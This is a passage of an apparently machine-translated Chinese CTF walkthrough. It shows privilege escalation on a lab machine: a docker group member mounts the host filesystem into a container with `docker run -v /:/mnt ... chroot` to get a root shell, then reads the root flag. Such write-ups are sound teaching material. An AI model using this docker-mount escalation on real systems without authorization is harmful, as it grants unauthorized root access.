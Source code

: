 **我们有用户 2 标志。现在，让我们来看看**赛琳娜-personal.diary** ，**

```
cat selena-personal.diary
```

**![](img/8523dc647ad5f42ade9aab2b009bc854.png)**

**这条消息对我们毫无意义。现在，是特权升级的时候了。**

**使用`id` 命令，我们可以看到机器上正在运行什么，**

**![](img/24cd291783d526110338499cd0c362e0.png)**

**docker 服务正在运行。我们可以滥用 docker 来获取系统外壳。**

**让我们看看 docker 上运行的图像，**

```
docker images
```

**![](img/1308bb4e0cca33fe7092b0ad644a746f.png)**

**有一个 privesc 映像正在运行。我们将使用这个映像来获取系统外壳，**

**通过运行这个命令，**

```
docker run -v /:/mnt --rm -it privesc chroot /mnt /bin/bash
```

**![](img/7814a87120ef54be1d081ab7ec1b2424.png)**

**我们有根权限。这可以在 GTFOBins 上找到，(用 privesc 代替 alpine)。**

**最后，读取根标志输出，**

```
cat /root/root.txt
```
